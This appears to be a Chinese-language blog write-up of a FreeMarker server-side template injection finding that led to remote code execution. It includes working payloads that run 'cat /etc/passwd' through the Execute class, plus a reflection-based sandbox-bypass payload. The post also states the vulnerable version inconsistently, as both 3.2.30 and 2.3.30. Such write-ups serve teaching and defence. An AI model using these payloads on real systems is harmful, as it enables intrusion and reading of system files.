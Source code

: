 ```yaml
---
date: 2025-08-02T07:11:23+08:00
title: 突破壁垒：FreeMarker模板引擎中的SSTI漏洞实现远程代码执行
tags: [漏洞挖掘, SSTI, RCE, FreeMarker]
authors: qife
description: 本文详细分析了FreeMarker模板引擎中存在的服务器端模板注入(SSTI)漏洞，通过构造特殊payload绕过沙箱机制实现远程代码执行(RCE)，并提供了完整的漏洞利用链和技术细节。
---
```


# 突破壁垒：FreeMarker模板引擎中的SSTI漏洞实现远程代码执行

2023年，我在使用旧版FreeMarker模板引擎的应用中发现了一个重大漏洞。该版本存在服务器端模板注入(SSTI)漏洞，使我能够实现远程代码执行(RCE)。报告问题后，公司立即实施了沙箱机制来缓解SSTI攻击风险。但由于仍在使用FreeMarker 3.2.30以下版本，存在已知的沙箱绕过漏洞。本文将深入分析这一发现，重点展示绕过沙箱机制的具体步骤。

## FreeMarker模板引擎工作原理

FreeMarker是一款广泛采用的模板引擎，主要用于Java应用中将表现逻辑与业务逻辑分离。它允许开发者创建包含静态内容和动态占位符的模板，这些模板可以通过Java对象或数据库查询等数据源填充，最终生成动态输出。

HTML转PDF的工作流程如下：

1. **HTML结构定义**：在FreeMarker模板文件中定义HTML结构，包括内容、格式和样式
2. **FreeMarker指令**：使用`<#`开头的指令动态填充数据，包括集合遍历、条件渲染和变量访问
3. **指令块**：在指令中定义可条件执行或循环的代码块
4. **HTML渲染**：将模板与数据合并生成最终HTML
5. **PDF转换**：使用HTML转PDF工具将生成的HTML转为PDF文档

## 漏洞发现过程

在应用测试阶段，我观察到`<#if>`、`<#list>`等标签的使用，确认应用使用了FreeMarker引擎。通过以下测试代码验证了引擎行为：

```freemarker
<#assign test = .version>
TEST FOR SSTI: ${3*3}
```

这些测试验证了引擎对特殊字符的处理、变量声明和基础运算能力。接着使用以下代码确认引擎版本：

```freemarker
<#assign freemarkerVersion = .version>
FreeMarker version: ${freemarkerVersion}
```

确认版本低于2.3.30，存在SSTI漏洞(CVE-2021-25770)。

## 漏洞利用

`freemarker.template.utility.Execute`类允许在模板中执行外部命令。构造如下payload可读取`/etc/passwd`文件：

```freemarker
${"freemarker.template.utility.Execute"?new()("cat /etc/passwd")}
```

公司随后引入了沙箱环境作为防护措施。沙箱限制了模板引擎的操作能力，提供了安全执行环境。但旧版本仍存在绕过可能。

## 沙箱绕过技术

验证特殊字符处理和运算能力后，构建绕过payload：

```freemarker
<#assign classloader=article.class.protectionDomain.classLoader>
<#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>
<#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>
<#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>
${dwf.newInstance(ec,null)("cat /etc/passwd")}
```

该payload通过反射获取类加载器，加载关键类并最终执行命令，成功绕过沙箱防护。